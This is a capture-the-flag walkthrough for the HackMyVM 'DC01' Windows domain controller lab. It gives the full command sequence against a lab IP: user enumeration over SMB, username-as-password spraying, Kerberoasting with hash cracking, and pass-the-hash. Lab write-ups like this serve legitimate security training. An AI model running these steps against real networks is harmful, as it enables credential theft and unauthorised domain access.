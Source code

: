 
![dc01](https://github.com/user-attachments/assets/a46c6940-1c1b-4d61-ac21-f18575faa46d)


---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [josemlwdf](https://hackmyvm.eu/profile/?user=josemlwdf)         | [HackMyVm](https://hackmyvm.eu)     | Easy           | Windows   |

---






- I start with a scan of the open ports
  
  ```bash
  nmap -p- --open --min-rate 5000 -sS -Pn 10.0.2.4 -oG scan
  ```
  
  ![image1](https://github.com/user-attachments/assets/01591839-9dfc-4749-a741-fa93699b6c5b)


- I continue with a scan of the versions and technologies that are running on the open ports that we have found
  
  ```bash
  nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49671,49686 -sCV -Pn 10.0.2.4 -oN ports
  ```
  
  ![image2](https://github.com/user-attachments/assets/d0dd926a-70a1-42ae-aa94-4bb3cd93a3e7)

- I list the resources shared by smb
  
  ```bash
  smbmap -H 10.0.2.4 -u 'guest'
  ```
  
  ![image3](https://github.com/user-attachments/assets/b5c65a0c-2c4b-49ac-bfc4-5a9692a64a31)

- Seeing that I have read permissions on IPC$ I can list system users. When I have a list of potential users I run it through crackmapexec to validate them
  
  ```bash
  impacket-lookupsid SOUPEDECODE@10.0.2.4 -no-pass
	
  crackmapexec smb 10.0.2.4 -u users -p "" --shares --continue-on-success
  ```
  
  ![image4](https://github.com/user-attachments/assets/8e3b6c75-e838-4b79-86e3-f72e5ee2f601)
  
- I am trying to remove users that use the same password as your own user, I find user ybob317
  
  ```bash
  netexec  smb 10.0.2.4 -u users_potencial  -p users_potencial  --no-bruteforce --continue-on-success | grep -v "[-]"
  ```
  
  ![image4](https://github.com/user-attachments/assets/30d238c3-7bcc-4474-bddf-0a50efe57a8f)

- I list with the found credentials the smb resources, I can list new folders and inside them I find the first flag
  
  ```bash
  smbmap -H 10.0.2.4 -u 'ybob317' -p 'ybob317'
  ```
  
  ![image5](https://github.com/user-attachments/assets/0a430a08-f298-40ec-bf0f-e64aadc810ba)
  
- I check if this user has permissions to connect via RDP
  
  ```bash
  crackmapexec winrm 10.0.2.4 -u "ybob317" -p "ybob317"
  ```
  
  ![imagee](https://github.com/user-attachments/assets/de0a1453-46f0-4a40-b7bc-f7a7be36c91c)

- I try to get user hashes through an ASREPRoast, without providing credentials I get nothing but using ybob317's credential I manage to dumpe several hashes
- I notice that I get an error due to a time difference between the machine and my computer, I adjust it with ntpdate
  
  ```bash
  ntpdate 10.0.2.4
  impacket-GetUserSPNs -request -dc-ip 10.0.2.4 SOUPEDECODE.LOCAL/ybob317:ybob317 -outputfile hashes.kerberoast
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast
  ```
  
  ![image6](https://github.com/user-attachments/assets/4afc969a-ffe7-42cd-bda7-ec9c5047b166)

- With these new credentials I can view the contents of a new folder and I get a file containing hashes of several users
  
  ![image7](https://github.com/user-attachments/assets/3b740547-a8e6-49b2-8a29-52d5ba7170e4)
  ![image8](https://github.com/user-attachments/assets/595e146b-0a3c-4645-ae4c-216842db5944)


- I check if the hashes found belong to any user and I can do pass-the-hash (PtH). I find a user with whom I can do this attack and when I put Pwn3d! it tells me that I can connect to the machine
- When I log in I see that I have enough permissions to read the second flag
  
  ```bash
  netexec smb 10.0.2.4 -u a -p hahses --continue-on-success 
  ```
  
  ![image9](https://github.com/user-attachments/assets/01d650e3-4183-46b4-8bba-f5369a7222dd)

  ![image10](https://github.com/user-attachments/assets/1046945d-3cf9-47f5-8f4c-a3654203363e)





